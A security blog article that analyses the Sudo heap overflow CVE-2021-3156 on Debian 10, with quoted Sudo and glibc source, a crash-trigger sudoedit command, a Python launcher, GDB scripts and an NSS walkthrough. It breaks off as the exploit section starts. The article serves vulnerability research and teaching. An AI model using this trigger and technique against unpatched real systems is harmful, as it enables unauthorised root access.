[CVE-2021-3156] Exploiting Sudo heap overflow on Debian 10
Recently the Qualys Research Team did an amazing job discovering a Heap overflow vulnerability in Sudo. In the next sections, we will analyze the bug and we will write an exploit to gain root privileges on Debain 10.

Debugging environment
Before analyzing the vulnerability, we need to set up a debugging environment. For this article, I will use:
- OS:
- Linux distribution: Debain 10 (Buster)
- System info:
Linux debian 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64 GNU/Linux - Debugger: GDB + PWNDBG
- Sudo:
- Package version:
1.8.27-1+deb10u2 - Checksum (sha256):
ca4a94e0a49f59295df5522d896022444cbbafdec4d94326c1a7f333fd030038 - Source code: sudo-1.8.27.tar.gz
- Package version:
- Glibc
- Glibc version:
2.28 - Checksum (sha256):
dedb887a5c49294ecd850d86728a0744c0e7ea780be8de2d4fc89f6948386937 - Source code: glibc-2.28.zip
- Glibc version:
At the end of the page, you can find the link to download all the files used in this article.
(For debugging purposes, I will temporarily disable ALSR)
Agrument parsing is not a joke
As we can see from the Qualys’ article, executing Sudo with the -s option, the Sudo’s MODE_SHELL flag will be set, then, at the beginning of Sudo’s main() function, the parse_args() function will be called, and it will concatenate the command line arguments, escaping all meta-characters with backslashes:
main() in src/sudo.c
[...]
195 /* Parse command line arguments. */
196 sudo_mode = parse_args(argc, argv, &nargc, &nargv, &settings, &env_add);
[...]parse_args() in src/parse_args.c
[...]
559 if (ISSET(flags, MODE_SHELL|MODE_LOGIN_SHELL) && ISSET(mode, MODE_RUN)) {
560 char **av, *cmnd = NULL;
561 int ac = 1;
562
563 if (argc != 0) {
564 /* shell -c "command" */
565 char *src, *dst;
566 size_t size = 0;
567
568 for (av = argv; *av != NULL; av++)
569 size += strlen(*av) + 1;
570 if (size == 0 || (cmnd = reallocarray(NULL, size, 2)) == NULL)
571 sudo_fatalx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
572 if (!gc_add(GC_PTR, cmnd))
573 exit(1);
574
575 for (dst = cmnd, av = argv; *av != NULL; av++) {
576 for (src = *av; *src != '\0'; src++) {
577 /* quote potential meta characters */
578 if (!isalnum((unsigned char)*src) && *src != '_' && *src != '-' && *src != '$')
579 *dst++ = '\\';
580 *dst++ = *src;
581 }
582 *dst++ = ' ';
583 }
[...]
588 ac += 2; /* -c cmnd */
589 }
590
591 av = reallocarray(NULL, ac + 1, sizeof(char *));
[...]
596
597 av[0] = (char *)user_details.shell; /* plugin may override shell */
598 if (cmnd != NULL) {
599 av[1] = "-c";
600 av[2] = cmnd;
601 }
602 av[ac] = NULL;
603
604 argv = av;
605 argc = ac;
606 }
[...]Afterwards, the function sudoers_policy_main(), at line 300 will call set_cmnd(). This function will concatenate command line arguments into the heap, unescaping meta-characters:
set_cmnd() in plugins/sudoers/sudoers.c
[...]
787 if (sudo_mode & (MODE_RUN | MODE_EDIT | MODE_CHECK)) {
[...]
819 // Alloc and build up user_args.
820 for (size = 0, av = NewArgv + 1; *av; av++)
821 size += strlen(*av) + 1;
822 if (size == 0 || (user_args = malloc(size)) == NULL) {
823 sudo_warnx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
824 debug_return_int(-1);
825 }
826 if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
[...]
832 for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
833 while (*from) {
834 if (from[0] == '\\' && !isspace((unsigned char)from[1]))
835 from++;
836 *to++ = *from++;
837 }
838 *to++ = ' ';
839 }
[...]
853 }
[...]The Qualys researchers has discovered that if a command line argument ends with a single backslash, then:
-
At line 834, at some point,
from[0]will be the backslash andfrom[1]will be the NULL terminator at the end of the argument, so the!isspace((unsigned char)from[1])will return true. -
Since the condition at line 834 will be satisfied, at line 835
fromwill be incremented by one, pointing to the NULL terminator. -
At line 836 the NULL terminator will be copied in the heap and
fromwill be incremented by one again, pointing out of the argument’s bounds. -
The while loop will continue copying every character out of the argument’s bounds into the heap but since
sizeat line 821 was defined asstrlen(argument) + 1, this will cause a heap overflow.
There are some necessary conditions to satisfy to reach the vulnerable code:
- At line 787,
MODE_RUN,MODE_EDITorMODE_CHECKmust be set. - At line 826,
MODE_SHELLorMODE_LOGIN_SHELLmust be set.
The problem is that, if MODE_SHELL or MODE_LOGIN_SHELL are set, then the condition at line 559 in parse_args() will be satisfied before reaching the vulnerable code, and the meta-characters will be escaped.
Apparently, there should not be a way to set MODE_SHELL and MODE_CHECK or MODE_EDIT without setting MODE_RUN, indeed, as we can see from parse_args():
[...]
348 case 'e':
349 if (mode && mode != MODE_EDIT)
350 usage_excl(1);
351 mode = MODE_EDIT;
352 sudo_settings[ARG_SUDOEDIT].value = "true";
353 valid_flags = MODE_NONINTERACTIVE;
354 break;
[...]
404 case 'l':
405 if (mode) {
406 if (mode == MODE_LIST)
407 SET(flags, MODE_LONG_LIST);
408 else
409 usage_excl(1);
410 }
411 mode = MODE_LIST;
412 valid_flags = MODE_NONINTERACTIVE|MODE_LONG_LIST;
413 break;
[...]
500 if (argc > 0 && mode == MODE_LIST)
501 mode = MODE_CHECK;
[...]
514 if ((flags & valid_flags) != flags)
515 usage(1);
[...]If we set MODE_EDIT, the MODE_NONINTERACTIVE flag will be set at line 353, so we will not be able to set the MODE_SHELL flag, and if we set the MODE_CHECK flag, the other mode flags will be removed at line 501.
The Qualys’ researchers also managed to bypass these checks, executing Sudo as sudoedit:
[...]
245 int valid_flags = DEFAULT_VALID_FLAGS;
[...]
263 proglen = strlen(progname);
264 if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) {
265 progname = "sudoedit";
266 mode = MODE_EDIT;
267 sudo_settings[ARG_SUDOEDIT].value = "true";
268 }
[...]As we can see from the code above (always from parse_args()), if we execute Sudo as sudoedit, it will automatically add the MODE_EDIT and valid_flags will be preserved. Indeed, DEFAULT_VALID_FLAGS is defined as:
[...]
124 #define DEFAULT_VALID_FLAGS (MODE_BACKGROUND|MODE_PRESERVE_ENV|MODE_RESET_HOME|MODE_LOGIN_SHELL|MODE_NONINTERACTIVE|MODE_SHELL)
[...]Executing sudoedit with the -s option, we will set the MODE_EDIT flag and the MODE_SHELL flag, but since the MODE_RUN flag will not be set, we will be able to reach the vulnerable code with an argument that ends with a backslash and it will not be escaped.
As expected, sudoedit -s '\' $(python3 -c 'print("A"*0x10000)') will cause a memory corruption:

The Qualys Team, using a fuzzer, collected various crashes, three of them can lead to code execution.
Digging deeper
Let’s use GDB to see what happens when the heap overflow occurs.
We can write a couple of lines in python to start the process and immediately stop it using SIGSTOP, in this way we will be able to attach our debugger.
import subprocess, signal
cmd = ['sudoedit', '-s', 'A'*14 + '\\']
env = {'BBBBB': 'CCCCC'}
p = subprocess.Popen(cmd, env=env)
p.send_signal(signal.SIGSTOP)
input('[+] Attach GDB')Is important to note that we need root privileges to attach GDB to Sudo, and we cannot run it inside GDB as a non-privileged user, otherwise it will return the following, self-explanatory, error: sudo: effective uid is not 0, is /usr/bin/sudo on a file system with the 'nosuid' option set or an NFS file system without root privileges?
To make the debugging session easier, I copied the necessary source code files in a folder called src and then I used the following GDB script to automate the first debugging steps:
directory ./src
set follow-exec-mode new
set breakpoint pending on
b sudoers.c:826
b sudoers.c:834
c
c
cWe can proceed running sudoedit using our python script and attaching GDB to the process using the following command:
gdb-pwndbg --pid=`pidof sudoedit` -x ./gdb_cmds
As we can see from the image above, size is equal to 16, it is nothing more than: strlen("AAAAAAAAAAAAAA\\") + 1. In RAX we can see the heap pointer returned by malloc(): 0x555555581dd0.
Using the pwndbg’s vis_heap_chunks feature, we can visualize the allocated heap chunk. As we can see its size is 32 bytes:

Using continue, we will hit the second breakpoint in the set_cmnd() function. Here the arguments will be copied from the stack to the heap:

Using continue multiple times, the function will copy our “A”s into the heap, then the backslash, since it has not been escaped by parse_args(), will escape the following NULL terminator, that will be copied into the heap and then the while loop will continue, copying every character out of the argument’s bounds. Since on the stack, argv is followed by envp, the environment variable BBBBB=CCCCC will be copied into the heap:

As expected, this will result in a heap overflow. Using vis_heap_chunks we can clearly see that we overwritten the size of the next chunk with the last two characters of the environment variable:

The next step is to transform this heap overflow into code execution.
GNU Name Service Switch (NSS)
At line 318 in sudoers_policy_main(), Sudo will call sudoers_lookup() to look up users in the sudoers group and see if they are allowed to run the specified command on the host as the target. To do that, Sudo will rely on the Name Service Switch (NSS).
As we can read from gnu.org:
[...]
In a nutshell, the NSS is a mechanism that allows libc to be extended with new "name"
lookup methods for system databases, which includes host names, service names,
user accounts, and more.
[...]And from NSS Basics:
[...]
The basic idea is to put the implementation of the different services offered to access the databases in separate modules.
This has some advantages:
- Contributors can add new services without adding them to the GNU C Library.
- The modules can be updated separately.
- The C library image is smaller.
[...]Available databases and respective services are defined in /etc/nsswitch.conf. Each database has its own services and each service corresponds to a shared object which offers various functions.
From The Naming Scheme of the NSS Modules we can see that:
The name of each function consists of various parts:
_nss_service_function
"service" of course corresponds to the name of the module this function is found in.
The function part is derived from the interface function in the C library itself.
If the user calls the function "gethostbyname" and the service used is "files" the function
_nss_files_gethostbyname_r
in the module
libnss_files.so.2
[...]Sudo will use __nss_database_lookup() to look up the needed database and the respective service:
[...]
132 /* Are we initialized yet? */
133 if (service_table == NULL)
134 /* Read config file. */
135 service_table = nss_parse_file (_PATH_NSSWITCH_CONF);
136
137 /* Test whether configuration data is available. */
138 if (service_table != NULL)
139 {
140 /* Return first 'service_user' entry for DATABASE. */
141 name_database_entry *entry;
142
143 /* XXX Could use some faster mechanism here. But each database is
144 only requested once and so this might not be critical. */
145 for (entry = service_table->entry; entry != NULL; entry = entry->next)
146 if (strcmp (database, entry->name) == 0)
147 *ni = entry->service;
[...]Then it will pass the service structure, now assigned to the ni variable, and the required function name to __nss_lookup_function().
If the module corresponding to the service has already been loaded, __nss_lookup_function() will directly proceed constructing the function name and looking up the symbol in the shared object. Otherwise, __nss_lookup_function() will call nss_load_library() that after constructing the module name will call __libc_dlopen_mode() to effectively load the shared object into memory (Mind this point, it will be extremely important in the exploitation phase):
[...]
360 char shlib_name[shlen];
361
362 /* Construct shared object name. */
363 __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name,
364 "libnss_"),
365 ni->name),
366 ".so"),
367 __nss_shlib_revision);
368
369 ni->library->lib_handle = __libc_dlopen (shlib_name);
[...]At this point nss_load_library() will return, __nss_lookup_function() will construct the function name and then it will look up the symbol in the loaded shared object using __libc_dlsym():
[...]
489 char name[namlen];
490
491 /* Construct the function name. */
492 __stpcpy (__stpcpy (__stpcpy (__stpcpy (name, "_nss_"),
493 ni->name),
494 "_"),
495 fct_name);
496
497 /* Look up the symbol. */
498 result = __libc_dlsym (ni->library->lib_handle, name);
[...](If you are interested in dynamic linking, check out my ret2dl_resolve article)
Four important structures involved in this process, are respectively:
- name_database, which describes a database:
[...]
90 typedef struct name_database
91 {
92 /* List of all known databases. */
93 name_database_entry *entry;
94 /* List of libraries with service implementation. */
95 service_library *library;
96 } name_database;
[...]- name_database_entry, which describes a database entry.
[...]
79 typedef struct name_database_entry
80 {
81 /* And the link to the next entry. */
82 struct name_database_entry *next;
83 /* List of service to be used. */
84 service_user *service;
85 /* Name of the database. */
86 char name[0];
87 } name_database_entry;
[...]- service_user, which describes a service.
[...]
61 typedef struct service_user
62 {
63 /* And the link to the next entry. */
64 struct service_user *next;
65 /* Action according to result. */
66 lookup_actions actions[5];
67 /* Link to the underlying library object. */
68 service_library *library;
69 /* Collection of known functions. */
70 void *known;
71 /* Name of the service ('files', 'dns', 'nis', ...). */
72 char name[0];
73 } service_user;
[...]- service_library, which describes a library.
[...]
40 typedef struct service_library
41 {
42 /* Name of service (`files', `dns', `nis', ...). */
43 const char *name;
44 /* Pointer to the loaded shared library. */
45 void *lib_handle;
46 /* And the link to the next entry. */
47 struct service_library *next;
48 } service_library;
[...]These structures will be used to look up the database and the service with the corresponding library. They will be of primary importance in the exploitation phase.
Let’s proceed adding a couple of breakpoints to our GDB script to analyze this process in memory:
directory ./src
set follow-exec-mode new
set breakpoint pending on
b sudoers.c:826
b sudoers.c:834
c
c
c
b nsswitch.c:147
b nsswitch.c:498
b nsswitch.c:369
b __libc_dlopen_modeWe can reach the heap overflow point and use continue again to hit the breakpoint in __nss_database_lookup():

From the image above, we can see that Sudo is looking for the group database. Now, using continue one more time, we will directly hit the breakpoint at the end of __nss_lookup_function():

As we can see from the registers, Sudo is trying to look up the _nss_files_initgroups_dyn symbol in the files library. It didn’t call nss_load_library() because there was already a valid library handle in the service_library structure (basically the shared object has already been loaded):

Using continue again, we will hit the breakpoint in nss_load_library():

This time, after constructing the library name (libnss_systemd.so.2, stored in RDI), Sudo is trying to use __libc_dlopen_mode() to load the shared object in memory. This means that the library has not already been loaded. Let’s take a look to the ni structure:

Predictably, the lib_handle field of the service_library structure this time is NULL. It will be populated with the value returned by __libc_dlopen_mode().
Sudo will proceed loading the shared object in memory, constructing the requested function name, and finding the symbol in the library using __libc_dlsym().
Now that we have a decent knowledge of how NSS works, we can start writing our exploit.
The exploit
We know that the NSS library name will be constructed in nss_load_library() by the following piece of code:
[...]
360 char shlib_name[shlen];
361
362 /* Construct shared object name. */
363 __stpcpy (__stpcpy (__stpcpy (__stpcpy (shlib_name,
364 "libnss_"),
365 ni->name),
366 ".so"),
367 __nss_shlib_revision);
368
369 ni->library->lib_handle = __libc_dlopen (shlib_name);
